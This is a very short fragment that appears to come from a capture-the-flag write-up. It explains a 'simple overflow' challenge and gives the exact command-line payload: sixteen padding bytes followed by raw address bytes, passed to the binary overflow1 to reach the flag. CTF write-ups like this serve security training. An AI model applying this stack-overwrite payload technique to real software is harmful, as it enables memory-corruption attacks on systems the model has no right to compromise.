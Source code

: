Simple overflow, just run `./overflow1 $(printf "aaaaaaaaaaaaaaaa\xff\x7f\xec\x1c")`, and you can cat the flag!